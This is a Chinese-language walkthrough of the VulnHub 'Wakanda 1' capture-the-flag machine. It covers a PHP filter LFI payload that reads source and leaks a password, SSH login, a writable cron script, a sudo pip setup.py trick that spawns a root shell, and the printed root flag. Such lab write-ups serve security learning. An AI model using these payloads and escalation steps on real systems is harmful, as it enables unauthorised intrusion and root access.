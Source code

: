 ```yaml
---
title: VulnHub-WAKANDA-1
author: AmtuOrRF
date: 2022-02-12
categories: [vulnhub]
tags: [vulnhub]
---
```

*2022 年 2 月 11 日，星期五*
### Introduction
> 一个新的Vibranium市场将很快在暗网中上线。您的目标，获取包含矿井确切位置的根文件。

> 中级水平

> 标志：有三个标志（标志1.txt，标志2.txt，根.txt）

### Table of Content
- nmap
- [网站页面源代码注释,泄露传参](#1)
- [使用 PHP Filters 通过 LFI 查看 php 文件的内容](#2)
- 在 index.php 文件发现一个密码，但是没有用户名
- [使用CeWL工具 爬取网站页面,生成用户名字典](#使用CeWL工具爬取网站页面,生成用户名字典)
- 通过SSH枚举有效用户名(CVE-2018-15473)
- 滥用可写脚本, 300 秒执行一次.( /srv/.antivirus.py )
- 检查 sudoers，发现低可以运行 pip - Use GTFO Bin to get root

### 网站页面源代码注释,泄露传参
```bash
http://192.168.84.7/?lang=fr
```

### 使用 PHP Filters 通过 LFI 查看 php 文件的内容
```bash
http://192.168.84.7/?lang=php://filter/read=convert.base64-encode/resource=index

# base64解密
echo "xxx"|base64 -d

# index.php 内的密码
$password ="Niamey4Ever227!!!" ;//I have to remember it
```

### 使用CeWL工具爬取网站页面,生成用户名字典
```bash
# 用户名字典
cewl http://192.168.84.7/ > user.txt
```

### 通过 SSH 枚举有效用户名 (CVE-2018-15473)
```bash
# 得到用户 mamadou
ssh mamadou@192.168.84.7 -p 3333

pass: Niamey4Ever227!!!
```
### 滥用可写脚本, 300 秒执行一次.( /srv/.antivirus.py )
```bash
# 服务器中还有另一个用户 devops

# 查找有关devops 的文件
find / -name 'devops' 2>/dev/null

# 找到一个，可写
'/srv/.antivirus.py'


# 文件是怎么运行的?
grep -Ri '.antivirus.py' /etc/ 2>/dev/null
```
### 检查 sudoers，发现低可以运行 pip - Use GTFO Bin to get root
```bash
sudo -l
# (ALL) NOPASSWD: /usr/bin/pip

echo "import os;os.system('/bin/bash')" > setup.py
sudo /usr/bin/pip install ./

cat root.txt
     _    _.--.____.--._
    ( )=.-":;:;:;;':;:;:;"-._
     \\\:;:;:;:;:;;:;::;:;:;:\
      \\\:;:;:;:;:;;:;:;:;:;:;\
       \\\:;::;:;:;:;:;::;:;:;:\
        \\\:;:;:;:;:;;:;::;:;:;:\
         \\\:;::;:;:;:;:;::;:;:;:\
          \\\;;:;:_:--:_:_:--:_;:;\
           \\\_.-"             "-._\
            \\
             \\
              \\
               \\ Wakanda 1 - by @xMagass
                \\
                 \\
    
    
    Congratulations You are Root!
    
    821ae63dbe0c573eff8b69d451fb21bc
	
```
*过程还有一些flag.txt文件*